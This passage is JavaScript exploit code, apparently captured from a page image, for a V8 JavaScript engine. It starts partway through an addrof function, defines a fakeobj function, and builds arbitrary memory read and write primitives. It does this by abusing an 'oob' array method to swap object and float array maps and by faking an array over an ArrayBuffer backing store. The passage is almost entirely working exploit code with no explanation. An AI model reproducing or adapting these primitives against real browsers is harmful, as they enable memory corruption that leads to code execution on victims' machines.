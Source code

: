 ```javascript
    obj_arr[0] = in_obj;

    // Change the obj array's map to the float array's map
    obj_arr.oob(float_arr_map);

    // Get the address by accessing index 0
    let addr = obj_arr[0];

    // Set the map back
    obj_arr.oob(obj_arr_map);

    // Return the address as a BigInt
    return ftoi(addr);
}

function fakeobj(addr) {
    // First, put the address as a float into index 0 of the float array
    float_arr[0] = itof(addr);

    // Change the float array's map to the obj array's map
    float_arr.oob(obj_arr_map);

    // Get a "fake" object at that memory location and store it
    let fake = float_arr[0];

    // Set the map back
    float_arr.oob(float_arr_map);

    // Return the object
    return fake;
}

// This array is what we will use to write to arbitrary memory addresses
var arb_rw_arr = [float_arr_map, itof(0x0000000200000000n), 1, 0xffffffff];

console.log("[+] Controlled float array: 0x" + addrof(arb_rw_arr).toString(16));

function arb_read(addr) {
    // We have to use tagged pointers, so if the addr isn't tagged, we tag it
    if (addr % 2n == 0)
	addr += 1n;
    
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
    return ftoi(fake[0]);
}

function initial_arb_write(addr, val) {
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
    fake[0] = itof(BigInt(val));
}

function arb_write(addr, val) {
    let buf = new ArrayBuffer(8);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);
    dataview.setBigUint64(0, BigInt(val), true);
}

var test = new Array([1.1, 1.2, 1.3, 1.4]);
```